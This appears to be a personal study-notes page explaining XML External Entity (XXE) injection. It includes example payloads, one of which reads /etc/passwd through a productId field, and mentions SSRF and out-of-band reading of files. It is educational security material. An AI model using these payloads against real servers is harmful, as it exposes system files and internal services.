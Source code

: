 Visit [[XML]] to learn more about XML

This vulnerability comes from External XML Entity that accepts `SYSTEM` operand

Simple Example
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY entity-name SYSTEM "URI/URL">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

Now, lets put actual values inside placeholders
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "http://x.com/">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

As a result, XML parser would send a HTTP GET request to the specified URL

To prevent this vulnerability, the web server(s) should not be able to go make a request outside the DMZ. Look at [[Modern Web Workflow]] to understand

#### XML in POST request
Reading contents of `/etc/passwd` file using a XML as a body for POST request.
Here wrong `productId` returns an error with contents of `productId`. Therefore, we can read the given file.
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "file:///etc/passwd">]>  
<stockCheck>  
	<productId>&writer;</productId>
	<storeId>1</storeId>
</stockCheck>
```

> [!info] Causing SSRF through XXE
> You can also cause [[Security/Web/Vulnerabilities/Server Side Vulnerabilities/SSRF]] by writing localhost after `SYSTEM` operand

---
#### Reading an XML file using XXE
You can't just read XML files with previous methods, as the XML parser breaks and does not count another XML file as proper data

So you do a simple GET request to read the content of the xml file, and after it comes back, you send another GET request with the content of the XML file as parameter for the GET request

---
## Related links

Check out this [video](https://www.youtube.com/watch?v=-BPnSQou8yw) by mdisec to learn more about XXE